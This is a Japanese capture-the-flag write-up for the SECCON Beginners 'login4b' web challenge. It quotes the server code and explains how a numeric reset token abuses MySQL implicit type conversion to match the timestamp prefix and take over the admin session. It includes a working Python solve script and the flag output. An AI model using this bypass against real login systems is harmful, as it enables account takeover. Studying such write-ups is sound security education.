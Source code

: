 # login4b:web:420pts
Are you admin? [http://login4b.challenges.beginners.seccon.jp](http://login4b.challenges.beginners.seccon.jp)  

[login4b.zip](login4b.zip)  

# Solution
URLとソースが渡される。  
アクセスするとLogin4bなるサービスで`Register`、`Login`、`Password Reset`の3つが実行できる。  
![site.png](site/site.png)  
`Password Reset`では`Username`から`Reset Token`を取得し、それを使ってパスワードを新しくできる。  
ソースのserver.tsの主要な箇所は以下の通りであった。  
```ts
~~~
app.post("/api/reset-request", async (req: Request, res: Response) => {
  try {
    const { username } = req.body;

    if (!username) {
      return res.status(400).json({ error: "Username is required" });
    }

    const user = await db.findUser(username);
    if (!user) {
      return res.status(404).json({ error: "User not found" });
    }

    await db.generateResetToken(user.userid);

    // TODO: send email to admin
    res.json({
      success: true,
      message:
        "Reset token has been generated. Please contact the administrator for the token.",
    });
  } catch (error) {
    console.error("Error generating reset token:", error);
    res.status(500).json({ error: "Internal server error" });
  }
});

app.post("/api/reset-password", async (req: Request, res: Response) => {
  try {
    const { username, token, newPassword } = req.body;
    if (!username || !token || !newPassword) {
      return res
        .status(400)
        .json({ error: "Username, token, and new password are required" });
    }

    const isValid = await db.validateResetTokenByUsername(username, token);

    if (!isValid) {
      return res.status(400).json({ error: "Invalid token" });
    }

    // TODO: implement
    // await db.updatePasswordByUsername(username, newPassword);

    // TODO: remove this
    const user = await db.findUser(username);
    if (!user) {
      return res.status(401).json({ error: "Invalid username" });
    }
    req.session.userId = user.userid;
    req.session.username = user.username;

    res.json({
      success: true,
      message: `The function to update the password is not implemented, so I will set you the ${user.username}'s session`,
    });
  } catch (error) {
    console.error("Password reset error:", error);
    res.status(500).json({ error: "Reset failed" });
  }
});

app.get("/api/get_flag", (req: Request, res: Response) => {
  if (!req.session.userId) {
    return res.status(401).json({ error: "Not authenticated" });
  }

  if (req.session.username === "admin") {
    res.json({ flag: process.env.FLAG || "ctf4B{**REDACTED**}" });
  } else {
    res.json({ message: "Hello user! Only admin can see the flag." });
  }
});
~~~
```
`/api/get_flag`では、`admin`であればフラグが表示されるようだ。  
`/api/reset-request`ではdatabase.tsの`db.generateResetToken`を用いて`Reset Token`を生成して、DBをUPDATEしている。  
```ts
  async generateResetToken(userid: number): Promise<string> {
    await this.initialized;
    const timestamp = Math.floor(Date.now() / 1000);
    const token = `${timestamp}_${uuidv4()}`;

    await this.pool.execute(
      "UPDATE users SET reset_token = ? WHERE userid = ?",
      [token, userid]
    );
    return token;
  }
```
ただし、生成した値は`// TODO: send email to admin`のコメント通り表示されない。  
次に、`/api/reset-password`ではdatabase.tsの`db.validateResetTokenByUsername`を用いて、DBの`Reset Token`を確認している。  
```ts
  async validateResetTokenByUsername(
    username: string,
    token: string
  ): Promise<boolean> {
    await this.initialized;
    const [rows] = (await this.pool.execute(
      "SELECT COUNT(*) as count FROM users WHERE username = ? AND reset_token = ?",
      [username, token]
    )) as [any[], mysql.FieldPacket[]];
    return rows[0].count > 0;
  }
```
そして、DBのパスワードを変更すると思いきや、`// TODO: implement`以下のコメントの通り`db.updatePasswordByUsername`は未実装であるらしく、リセットしたユーザのセッションを与えている。  
つまり、表示されない`Reset Token`を使ってパスワードをリセットすると、そのユーザになれることを意味している。  
うまく`admin`のパスワードをリセットしたい。  
ここで`Reset Token`を予測できないかと考え、仕様を確認する。  
```ts
  async generateResetToken(userid: number): Promise<string> {
    await this.initialized;
    const timestamp = Math.floor(Date.now() / 1000);
    const token = `${timestamp}_${uuidv4()}`;

    await this.pool.execute(
      "UPDATE users SET reset_token = ? WHERE userid = ?",
      [token, userid]
    );
    return token;
  }
```
`` `${timestamp}_${uuidv4()}` ``となっており、`timestamp`は予測できるが`uuidv4()`は予測できない。  
`Password Reset`が怪しすぎるため、Race Conditionなども考えたが、予測可能な文字や`NULL`を代入している箇所もなく、そもそも`NULL`は400を返すようにチェックされている。  
ここで、`/api/reset-password`でユーザから渡される`token`は`req.body`由来であるが、型のバリデーションが行われていないことに気づく。  
そのままSQL文の`SELECT COUNT(*) as count FROM users WHERE username = ? AND reset_token = ?`に組み込まれているため、数値などを渡すことでDBの値とおかしな比較を行えないだろうか。  
ここでさらに、今回利用されているMySQLには暗黙の型変換があったことを思い出す。  
例えば、数値との文字列が比較される場合、文字列の数値として読み込める箇所までを数値として扱う挙動がある。  
つまり以下のどれもが比較が真と判断される。  
```sql
SELECT 'satoki' WHERE 9='9';
SELECT 'satoki' WHERE 9='9Test';
SELECT 'satoki' WHERE 9='9_012345678';
```
この挙動により、`token`の型を数値にしてやれば、`Reset Token`の`${timestamp}`の後ろの`_${uuidv4()}`は暗黙の型変換により無視される。  
`/api/reset-request`を呼ぶたびに`Math.floor(Date.now() / 1000)`が`Reset Token`の先頭となるので、これは容易に予測できる。  
以下のようなsolve.pyを用いて、`admin`の`Reset Token`の比較を突破してセッションを取得する。  
```py
import time
import requests

session = requests.Session()

URL = "http://login4b.challenges.beginners.seccon.jp"

session.post(f"{URL}/api/reset-request", json={"username": "admin"})
token = int(time.time())
session.post(f"{URL}/api/reset-password", json={"username": "admin", "token": token, "newPassword": "satoki"})

response = session.get(f"{URL}/api/get_flag")
print(response.text)
```
実行する。  
```bash
$ python solve.py
{"flag":"ctf4b{y0u_c4n_byp455_my5q1_imp1ici7_7yp3_c457}"}
```
無事`admin`になることができ、flagが得られた。  

## ctf4b{y0u_c4n_byp455_my5q1_imp1ici7_7yp3_c457}